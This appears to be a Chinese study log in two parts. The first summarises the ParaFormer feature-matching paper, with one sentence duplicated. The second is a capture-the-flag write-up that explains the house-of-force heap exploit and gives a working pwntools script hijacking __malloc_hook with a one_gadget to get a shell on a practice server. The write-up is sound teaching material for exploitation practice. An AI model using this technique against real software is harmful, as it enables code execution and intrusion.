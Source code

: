 # 2024-1-25

## ParaFormer: Parallel Attention Transformer for Efficient Feature Matching

### 工作摘要

该论文提出了一种并行注意力机制，同步执行自我和交叉注意力机制，并自适应地将两者与可学习网络相结合。同时在原有模型的基础上，进一步探索了U-Net架构，以实现高效的特征匹配，并提出了注意力池，以最小的性能损失减少所需算力。同时在原有模型的基础上，进一步探索了U-Net架构，以实现高效的特征匹配，并提出了注意力池，以最小的性能损失减少所需算力。![三种注意力机制](images/三种注意力机制.png)

### 论文思路

#### ParaFormer

![屏幕截图 2024-01-25 165419](images/屏幕截图2024-01-25165419.png)

假设在图像X和图像Y中检测到M个和N个关键点，我们设置位置分别为$p^X \in R^{M\times3}$,$p^Y \in R^{N\times3}$,  设置描述符分别为$d^X \in R^{M\times C}$,$d^Y \in R^{N\times C}$。波形的生成公式如下
$$
\begin{array}{l}
&\tilde{w}_j = A_j \odot e^{i\theta_j}\\
	        &\quad\,\;= A_j \odot cos\theta_j + iA_j\odot sin\theta_j,j=1,2,...,n.
\end{array}
$$
在Wave-PE中将位置$p$和描述符$d$分别映射为为幅度$A$和相位$\theta$通过MLP将其转换为位置编码$x,[.,.] $表示链接。
$$
A_j=MLP_A(d_j)
\\
\theta_j = MLP(p_j)
\\
x_{j}^0=d_j +MLP_F([A_j\odot cos\theta_j,A_j\odot sin\theta_j])
$$
接下来分别将两组经过Wave-PE处理后得到的位置编码线性投影为$Q、K、V$。然后并行计算自注意力和交叉注意力，自注意力的输入是$(Q_x,V_x, K_x)$和$(Q_y,V_y, K_y)$对于自注意力来说采用标准的注意力公式。

$$
Attention(Q,K,V) = softmax(\frac{QK^T}{\sqrt{d_k}})V
$$

对于交叉注意力该论文提出了一种权值共享策略来提升模型的效率，使用$(Q_xK_y^T)^T$来代替

$Q_yK_x^T$，所以交叉注意力的输入就变成了 $(Q_x,V_x, K_y,V_y)$，由于并行注意力层的输出和输入都是两组，所以可以简单地堆叠L个并行注意力层来形成ParaFormer。

#### ParaFormer-U

![屏幕截图 2024-01-25 172443](images/U-net.png)

ParaFormer-U是在原有ParaFormer基础上为提高效率而设计的。首先进行空间下采样以提取高层语义信息，然后进行上采样以恢复空间信息，并通过跳跃连接融合高层和低层信息。

![自注意力](images/自注意力.png)

假设l层中的特征为$x^l ∈ R^{N×D}$，注意力权重为$A^l ∈ R^{N×N}$。提出的注意力池化定义为：
$$
s=sum(A,dim=1)
\\idx=rank(s,k)
\\ \tilde{x}^l=Linear(x^l(idx,:))
\\g=sigmoid(s(idx))
\\x^{l+1}=\tilde{x}^l\odot g
$$


其中k是下一层$l+1$的点的数量，其值等于前一层中点的数量的一半。

自注意力图的每一列的总和被记为池化得分$s∈R^N$,然后根据此得分选择topk的点去掉不重要的点，并使用线性层来调整描述符的维度大小。$s(idx)$提取s中索引为$idx$的值然后利用$sigmoid$运算来生成gating信号，$\odot$表示逐元素矩阵乘法。

反池化上采样操作则为
$$
\tilde{x}^l=Linear(x^l)
\\x^{l+1}=distribute(0_{N\times C^{l+1}},\tilde{x}^l,idx)
$$
$x^l∈R^{k\times C^l}$是当前的特征矩阵，$0_{N \times C^{l+1}}$是下一层的初始空特征矩阵，首先使用线性层来调整特征矩阵维度。$idx ∈ R^k$是在对应池化层中选择的点的索引。然后根据$idx$将当前特征矩阵插入空特征矩阵的相应行，而其他行保持为零。

### idea

1.将CNN换成Transformer，并且叠加多层来试验

2.使用多层交叉自注意力和交叉注意力，通过调整两种注意力层的比例来测验对分类通信协议的效果提升

3.换成U-Net，FCN，PSPNet等结构

## Pwn

![1](images/1.png)

初始界面有两种功能

![2](images/2.png)

进入add函数因为不可以释放和修改所以可以使用house of force的方法

在2.23和2.27的libc版本中，由于没有对top chunk的size合法性进行检查，因此如果我们能够控制top chunk的size位以及malloc在申请堆块时的大小不受限制，那么就可以完成该攻击。

先从malloc函数源码看起，如果malloc函数执行时发现没有任何的bins中的堆块能够满足需求，就会从top chunk中切下一块内存返回给malloc，我们可以利用这个式子精准控制chunk位置

request_size=target_addr-0x20-victim

在控制chunk前还需要调整top chunk大小，如果top chunk本身的size是正常的话，必然无法满足这个要求，因此house of force的一个条件就是可以控制top chunk的size位(通常都是通过溢出的方式)，将其size设置为-1，-1是转换成无符号整数时，将变成最大的数字0xffffffffffffffff，无论request_size为多大都可以通过if检查了。

程序在申请chunk后，会打印出chunk的地址，动调找偏移，我们就可以算出libc_base
把top chunk的size改为0xffffffffffffffff（-1的补码）
我们申请一个size为malloc_hook和top chunk之间的偏移的chunk，那么就能将top chunk推到malloc_hook附近，劫持malloc_hook为one_gadget,获取shell，gadget不成功的话我们可以使用realloc来进行栈帧调整，劫持realloc_hook为one_gadget,劫持malloc_hook为realloc_hook+4，这里会调整栈帧sub rsp,38。

```python
from pwn import *
#io = process('./asd')
sh=remote('node4.buuoj.cn',28113)
context.log_level='debug'
libc = ELF('./libc-2.23-64.so')

def add(size,content):
    sh.sendlineafter(b'2:puts',str(1))
    sh.sendlineafter(b'size',str(size))
    sh.recvuntil(b'bin addr ')
    addr = int(sh.recv(14),16)
    print(hex(addr))
    sh.sendlineafter(b'content',content)
    return addr

libc_base = add(0x210000 , b'aaa') + 0x210ff0
heap_addr = add(0x10 ,p64(0)*3+p64(0xFFFFFFFFFFFFFFFF))
top_addr = heap_addr + 0x10

malloc_addr = libc_base+libc.sym['__malloc_hook']
realloc_addr = libc_base+libc.sym['__libc_realloc']
one_gadget = libc_base + 0x4526a

offset = malloc_addr - top_addr - 0x30
p=add(offset,b'aaaa')
p=add(0x20,b'a'*8 + p64(one_gadget) + p64(realloc_addr+0x10))

sh.recvuntil(b"2:puts\n")
sh.sendline(b'1')

sh.recvuntil(b"size\n")
sh.sendline(p64(20))
sh.interactive()
```

